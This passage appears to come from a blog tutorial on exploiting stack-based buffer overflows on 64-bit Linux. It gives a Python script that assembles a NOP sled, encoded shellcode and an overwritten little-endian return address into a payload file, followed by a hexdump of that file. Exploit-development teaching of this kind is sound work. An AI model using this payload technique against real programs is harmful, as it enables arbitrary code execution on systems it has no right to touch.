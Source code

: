 For this demo, let's select the address ends with 0x3f0.

{% highlight python %}

import sys

shellcode = b"\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff\xff\x48\x8d\x05\xef"
shellcode += b"\xff\xff\xff\x48\xbb\x3f\x5d\x0c\x3b\x1c\x04\x8d\x1e\x48"
shellcode += b"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x77\xe5\x23"
shellcode += b"\x59\x75\x6a\xa2\x6d\x57\x5d\x95\x6b\x48\x5b\xdf\x40\x55"
shellcode += b"\x66\x54\x34\x19\x04\x8d\x1e";

buff = b"\x90"*(256-len(shellcode))
rbp = b"\x90"*8

sys.stdout.buffer.write(buff+shellcode+rbp+b"\xf0\xe3\xff\xff\xff\x7f")

{% endhighlight %}

Modern day CPU's are little endian. This is why the address we picked is written in the reverse order byte wise in the function.

{% highlight shell %}
KnuckleSecurity :: -> python stackBased.py > stackBasedPayload.txt
KnuckleSecurity :: -> hexdump stackBasedPayload.txt
0000000 9090 9090 9090 9090 9090 9090 9090 9090
*
00000c0 4890 c931 8148 fde9 ffff 48ff 058d ffef
00000d0 ffff bb48 5d3f 3b0c 041c 1e8d 3148 2758
00000e0 2d48 fff8 ffff f4e2 e577 5923 6a75 6da2
00000f0 5d57 6b95 5b48 40df 6655 3454 0419 1e8d
0000100 9090 9090 9090 9090 e3f0 ffff 7fff
000010e
KnuckleSecurity :: ->

{% endhighlight %}

Let' supply the debugger with the payload and examine the memory.
![Desktop View](/assets/img/posts/stack-based-overflows-on-64bit-linux/25.png){:.normal}
